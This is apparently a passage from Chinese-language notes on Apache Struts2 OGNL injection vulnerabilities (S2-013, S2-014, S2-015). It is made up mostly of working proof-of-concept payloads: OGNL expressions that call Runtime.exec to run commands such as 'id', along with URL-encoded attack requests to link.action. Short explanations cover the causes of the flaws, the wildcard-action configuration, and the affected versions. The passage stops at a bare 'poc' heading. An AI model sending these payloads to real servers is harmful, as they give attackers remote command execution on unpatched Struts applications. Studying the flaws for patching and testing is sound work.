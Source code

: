 poc

```java
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

访问

```java
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

可以执行执行命令

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 ${ognl\_exp} OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强

poc

`http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D`

#### S2-015

> 漏洞产生于配置了 Action 通配符 \*，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：
>
> ```xml
> <package name="S2-015" extends="struts-default">
>     <action name="*" class="com.demo.action.PageAction">
>         <result>/{1}.jsp</result>
>     </action>
> </package>
> ```
>
> 上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \\ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功
>
> 还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力
>
> **影响版本**: 2.0.0 - 2.3.14.2

poc
